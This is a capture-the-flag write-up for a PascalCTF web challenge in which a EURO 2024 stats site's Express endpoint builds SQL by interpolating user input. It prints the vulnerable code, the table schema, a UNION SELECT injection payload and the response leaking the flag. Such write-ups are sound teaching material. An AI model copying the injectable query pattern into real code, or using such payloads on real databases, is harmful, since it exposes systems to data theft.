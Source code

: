 # Description
It is a widely known fact that elia is a diehard fan of football. For this reason he built a website to display the group stats of the EURO 2024 tournament but it seems like he left a secret somewhere.

https://euro2024.challs.pascalctf.it 

## Info

- Solved by [Mathijs De Wilde](https://github.com/MathijsDeWilde)
- Written by [InSearchOfName](https://github.com/InSearchOfName)

## Solution
When we look at the source code of this application we see that there is an endpoint vulnerable to sql injection to be exact this one
~~~js
app.post("/api/group-stats", async (req, res) => {
    const group = req.body.group;
    let data = await db.query(`SELECT * FROM GROUP_STATS WHERE group_id = '${group}' ORDER BY ranking ASC`).catch((err) => console.error(err));
    res.json({ data: data.rows });
});
~~~

if we look at how the dbs.js file we see they are setup in following way
~~~js
client.query(`CREATE TABLE IF NOT EXISTS FLAG (
    flag VARCHAR(64) PRIMARY KEY 
)`)

client.query(`CREATE TABLE IF NOT EXISTS GROUPS (
    id CHAR NOT NULL PRIMARY KEY
)`);

client.query(`CREATE TABLE IF NOT EXISTS GROUP_STATS (
    group_id CHAR NOT NULL,
    team_name VARCHAR(32) NOT NULL,
    ranking INT NOT NULL,
    points INT NOT NULL,
    wins INT NOT NULL,
    draws INT NOT NULL,
    losses INT NOT NULL,
    goal_difference INT NOT NULL,
    PRIMARY KEY(group_id, team_name),
    FOREIGN KEY (group_id) REFERENCES GROUPS (id)
)`);
~~~

Now we can explout this by sending a union select statement in our injection
~~~json
{
  "group": "' UNION SELECT flag,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM FLAG -- "
}
~~~

if we send this to the endpoint we get this back
~~~json
{
    "data": [
        {
            "group_id": "pascalCTF{fl4g_is_in_7h3_eyes_of_the_beh0lder}",
            "team_name": null,
            "ranking": null,
            "points": null,
            "wins": null,
            "draws": null,
            "losses": null,
            "goal_difference": null
        }
    ]
}
~~~

giving us the following flag `pascalCTF{fl4g_is_in_7h3_eyes_of_the_beh0lder}`
